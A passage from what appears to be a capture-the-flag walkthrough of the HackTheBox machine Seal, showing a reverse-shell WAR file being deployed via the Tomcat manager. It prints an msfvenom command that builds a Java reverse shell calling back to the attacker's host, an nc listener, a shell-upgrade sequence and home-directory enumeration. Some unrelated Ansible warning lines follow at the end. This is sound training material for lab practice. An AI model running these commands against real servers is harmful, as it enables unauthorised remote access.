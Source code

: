 I’ll select it with the WAR file to deploy section:

![image-20210903170815101](https://0xdfimages.gitlab.io/img/image-20210903170815101.png)

And push Deploy. It shows up in the applications:

![image-20210903170835848](https://0xdfimages.gitlab.io/img/image-20210903170835848.png)

With `nc` listening, I’ll click `/rev` and it hangs, and a shell connects:

```

oxdf@parrot$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.22 lport=443 -f war -o rev.war
Payload size: 13316 bytes
Final size of war file: 13316 bytes
Saved as: rev.war
oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.10.250] 36418
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)

```

I’ll upgrade the shell using `script`:

```

script /dev/null -c bash
Script started, file is /dev/null 
tomcat@seal:/var/lib/tomcat9$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
tomcat@seal:/var/lib/tomcat9$

```

## Shell as luis

### Enumeration

#### Home Directories

There’s one folder in `/home`, and I can read from it, but not `user.txt`:

```

tomcat@seal:/home/luis$ ls -l
total 51272
-rw-r--r-- 1 luis luis 52497951 Jan 14  2021 gitbucket.war
-r-------- 1 luis luis       33 Sep  3 19:27 user.txt

```


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'